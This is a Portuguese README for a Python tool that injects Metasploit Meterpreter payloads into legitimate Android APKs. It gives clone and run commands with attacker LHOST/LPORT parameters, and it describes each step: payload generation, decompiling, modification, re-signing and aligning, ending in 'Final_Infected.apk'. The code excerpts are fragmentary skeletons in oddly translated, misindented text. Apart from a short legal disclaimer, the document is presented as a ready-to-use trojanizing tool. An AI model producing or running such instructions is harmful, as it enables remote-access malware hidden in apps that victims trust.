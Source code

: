 # Payload APK 
O Payload APK é uma ferramenta simples para injetar payloads Metasploit em aplicativos Android legítimos. Este script automatiza o processo de criação de um APK infectado para fins de teste e pesquisa.

## Requisitos

Certifique-se de ter as seguintes dependências instaladas no seu sistema:

- [APKTool](https://ibotpeaches.github.io/Apktool/)
- [Jarsigner](https://docs.oracle.com/en/java/javase/11/tools/jarsigner.html) ou [APKSigner](https://github.com/iBotPeaches/Apktool)

## Uso

1. Clone o repositório:

    ```bash
    git clone https://github.com/sucloudflare/payload_apk.git
    ```

2. Navegue até o diretório do script:

    ```bash
    cd payload_apk
    ```

3. Execute o script com os argumentos necessários:

    ```bash
    python payload_apk.py --lhost SEU_ENDERECO_IP --lport SUA_PORTA --normal-apk CAMINHO_APK_LEGITIMO --apk-name NOME_APK
    ```

    Certifique-se de substituir `SEU_ENDERECO_IP`, `SUA_PORTA`, `CAMINHO_APK_LEGITIMO` e `NOME_APK` pelos valores desejados.

4. O arquivo APK infectado será gerado no diretório e estará disponível como `Final_Infected.apk`.

<h1>Explicação</h1>

Esse código é um script Python que automatiza o processo de criação de um APK infectado com um payload Meterpreter para fins educacionais e de pesquisa. Aqui está uma breve explicação de cada parte do código: 

    Importação de Bibliotecas: 

    Pitão 

import os
import subprocess
import argparse
import random
import banner
import shutil

O script faz uso de bibliotecas padrão do Python para realizar várias operações, como manipulação de sistema, subprocessos, análise de argumentos da linha de comando, geração de números aleatórios e manipulação de banners. 

Definição de Cores: 

Pitão 

    BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[94m', '\033[91m', '\33[97m', '\33[93m', '\033[1;35m', '\033[1;32m', '\033[0m'
    
    
São constantes para melhorar a legibilidade da saída colorida do terminal. 

Obtenção de Argumentos da Linha de Comando:

Pitão 

        def obter_argumentos():
    
    
O script usa a biblioteca  argparse para analisar e obter os argumentos passados pela linha de comando.

Verificação de Dependências: 

Pitão 

        def verificar_dependencias(dependencia, nome):

    
def verificar_dependencias_e_atualizacoes():

    
Essas funções verificam se as dependências necessárias, como  apktool,  jarsigner,  apksigner e  zipalign, estão instaladas no sistema. Se não estiverem, o script oferece a opção de instalá-las. 

Função Principal ( main): 

Pitão 

        def main():
        arguments = obter_argumentos()  
        
            
    A função principal do script onde todo o processo é coordenado. Ele obtém os argumentos da linha de comando, gera variáveis aleatórias, verifica dependências, gera um payload Meterpreter, realiza a descompilação do APK original, faz modificações, compila o APK infectado, assina e ajusta o alinhamento do APK.

O código é bastante extenso, e detalhes específicos de cada função foram omitidos aqui. Se você tiver dúvidas sobre partes específicas ou quiser uma explicação mais detalhada de alguma seção, por favor, sinta-se à vontade para pergunta 


## Contribuindo

Se você encontrar problemas ou tiver sugestões para melhorias, sinta-se à vontade para abrir uma [issue](https://github.com/sucloudflare/payload-apk-generator/issues) ou enviar um [pull request](https://github.com/sucloudflare/payload-apk-generator/pulls).

## Aviso Legal

Este script é destinado apenas para fins educacionais e de pesquisa. O uso indevido deste script em ambientes não autorizados é estritamente proibido.

